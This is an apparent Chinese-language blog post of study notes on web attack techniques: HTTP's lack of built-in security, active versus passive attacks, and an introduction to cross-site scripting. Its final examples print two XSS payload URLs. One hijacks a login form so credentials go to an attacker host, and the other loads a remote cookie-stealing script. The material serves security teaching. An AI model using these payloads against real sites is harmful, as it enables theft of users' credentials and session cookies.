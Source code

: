 ```yaml
---
title: Web攻击技术
date: 2017-10-24 11:18:43
tags: http
categories: HTTP系列
---
```


* 简单的HTTP协议本身并不存在安全性问题，因此协议本身几乎不会成为攻击的对象。应用HTTP协议的服务器和客户端，以及运行在服务器上的Web应用等资源才是攻击目标
* HTTP只是一个单纯协议机制，没有提供安全性方面的功能
  - 比较：SSH是具备协议级别的认证及会话管理等功能
  - 解决方案：自行设计并开发认证及会话管理功能来满足web应用的安全
* 在客户端即可篡改请求
  <div style="max-width:600px">
  {% asset_img attack_example.png%}
  </div>

## 针对web应用的攻击模式
1. 以服务器为目标的主动攻击：主要攻击服务器上的资源
  <div style="max-width:600px">
  {% asset_img 主动攻击.png%}
  </div>
2. 以服务器为目标的被动攻击：主要攻击用户的资源和权限
  <div style="max-width:600px">
  {% asset_img 被动攻击.png%}
  </div>

### 一、因输出值转义不完全引发的安全漏洞
1. 客户端的验证：为了尽早地辨识输入错误，提高UI体验
2. Web应用端（服务器端）的验证
  - 输入值验证
  - 输出值转义
<div style="max-width:500px">
{% asset_img attack_check_area.png%}
</div>

#### 1.跨站脚本攻击（Cross-Site Scripting，XSS）
1. 概念：通过在（存在安全漏洞的Web网站的注册用户的）浏览器内运行非法的HTML标签或者JavaScript进行的一种攻击
2. 影响：
  * 利用虚假输入表单骗取用户个人信息
  * 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求
  * 显示伪造的文章和图片
3. 案例：
  * 使用有恶意代码的URL（如下），植入到欺诈邮件中或Web页面内，浏览器打开该URI后，设置在URL内的脚本就开始运行，用户填写ID和密码后，就直接发送到攻击者的网站（hackr.jp)，导致个人登录信息被窃取
    `http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="`
  * 使用有恶意脚本的URL（如下），浏览器打开这个URL后，这个xss.js文件（该文件会读取用户的cookie信息）会执行，来窃取用户的Cookie信息
    `http://example.jp/login?ID="><script src=http://hackr.jp/xss.js></script>"`
